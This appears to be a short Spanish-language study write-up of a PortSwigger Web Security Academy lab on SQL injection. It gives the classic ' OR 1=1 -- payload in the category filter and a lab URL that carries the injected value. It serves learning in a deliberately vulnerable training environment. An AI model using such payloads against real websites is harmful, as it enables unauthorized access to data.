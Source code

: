 # 01 Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Objetivo

```bash
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.
```

## Solución

1. Modificamos el campo `category` utilizando el valor `'+OR+1=1—` De esta manera visualizaremos todos los productos
2. 

```sql
CATEGORY = "' OR 1 = 1 --"
SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1
```

https://0a54003904a64d1a80b2718e00f3007b.web-security-academy.net/filter**?category=Accesories' OR 1 = 1 --**

![image.png](01%20Lab%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%2017efab5460ec81f88516e7482444f5f4/image.png)